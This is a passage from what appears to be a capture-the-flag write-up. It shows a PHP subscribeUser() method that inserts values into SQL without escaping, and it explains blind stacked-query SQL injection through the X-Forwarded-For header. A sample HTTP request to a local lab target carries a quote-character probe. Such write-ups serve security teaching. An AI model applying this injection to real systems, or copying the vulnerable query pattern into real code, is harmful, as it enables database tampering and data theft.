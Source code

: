 ```php
        self::$database = $this;
    }

    public static function getDatabase(): Database
    {
        return self::$database;
    }

    public function migrate()
    {
        $this->db->query('
            CREATE TABLE IF NOT EXISTS `subscribers` (
                id INTEGER PRIMARY KEY AUTOINCREMENT,
                ip_address VARCHAR(255) NOT NULL,
                email VARCHAR(255) NOT NULL
            );
        ');
    }

    public function subscribeUser($ip_address, $email)
    {
        return $this->db->exec("INSERT INTO subscribers (ip_address, email) VALUES('$ip_address', '$email')");
    }
}
```

The above is the `Database.php`. We can see that the `subscribeUser()` just executes a SQL query that adds `IP address` and `email` into the `subscribers` table. 

However, we can see that there is no defense against `SQL injection` attacks. Although, the email is being filtered by the `filter_var()` that we saw before, there is no check for the IP address. 

We can simply do a SQL injection attack using the `X-Forwarded-For` header (or any of the header we saw before).

Since the SQL statement being executed is an `INSERT` statement, therefore there is no point in using `UNION` based SQL injection attack as we do not get to see the response. In other words, we can perform a `stacked query` based SQL attack to exploit this sort of blind injections.

```bash
POST /subscribe HTTP/1.1
Host: localhost:1337
X-Forwarded-For: NehalZaman'
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 23
Origin: http://localhost:1337
Connection: close
Referer: http://localhost:1337/
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InBzZWMiLCJvdHBrZXkiOnRydWUsInZlcmlmaWVkIjp0cnVlLCJpYXQiOjE2NTI5NjEwMTJ9.2fmjvHwdtFWlM0IfZ-7wF2dN-1vquKCjZCEJVDcu_Hk
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

email=nehal%40vimal.pan
```
